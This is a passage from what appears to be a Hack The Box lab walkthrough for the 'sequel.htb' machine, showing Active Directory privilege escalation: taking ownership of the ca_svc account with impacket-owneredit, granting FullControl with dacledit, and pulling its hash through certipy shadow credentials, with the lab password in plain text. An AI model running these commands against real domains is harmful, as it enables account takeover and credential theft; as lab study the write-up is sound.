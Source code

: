  <img width="1085" height="116" alt="image" src="https://github.com/user-attachments/assets/7ef49e7e-84ca-4aa2-a1fa-00bdeac2fe87" />


### And we succesfuly change the ca_svc passwd 


<img width="1313" height="94" alt="image" src="https://github.com/user-attachments/assets/a5a5036e-2379-4a80-92e3-c4d924f803da" />


### Now we are member of the "CERT PUBLISHERS@SEQUEL.HTB" and we have permision to publish certificates to the director

<img width="1656" height="931" alt="image" src="https://github.com/user-attachments/assets/cf4bf2ee-453c-4ed2-8cd5-769cdd133670" />

-----
-----
----

# Day 2 -> Root 

### I make ryan owner of the ca_svc accoutn 

```
impacket-owneredit -action write -new-owner ryan -target ca_svc DC01.sequel.htb/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
```


<img width="1014" height="151" alt="image" src="https://github.com/user-attachments/assets/fe03b03a-3fd6-4523-92bb-08bfb249df53" />



### After i give us full control of ca_svc with decledit

```
impacket-dacledit -action write -rights FullControl -principal ryan  -target ca_svc DC01.sequel.htb/ryan:WqSZAF6CysDQbGb3
```


<img width="1024" height="107" alt="image" src="https://github.com/user-attachments/assets/ba491fa2-031a-47eb-be20-9fb9455a9814" />



### And take the hash for ca_svc

```
certipy-ad shadow auto -u ryan@DC01.sequel.htb -p 'WqSZAF6CysDQbGb3'  -account ca_svc  -dc-ip '10.10.11.51' 
```


<img width="1327" height="468" alt="image" src="https://github.com/user-attachments/assets/497bf726-2f62-45e3-8f7c-319ca8e9ac76" />

